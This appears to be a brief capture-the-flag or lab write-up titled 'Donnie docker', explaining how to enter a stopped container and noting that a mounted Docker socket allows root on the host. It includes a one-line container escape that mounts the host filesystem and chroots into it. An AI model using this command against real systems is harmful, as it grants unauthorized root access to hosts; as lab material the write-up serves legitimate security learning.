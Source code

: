 ## Donnie docker

you just run docker ```ps -a``` to see the stopped container. Then docker start it, ```docker exec -it [containername] /bin/bash``` to get into it

ps: you could get root on the docker host because the docker socket is mounted ```docker run -it -v /:/host/ ubuntu:18.04 chroot /host/ bash```
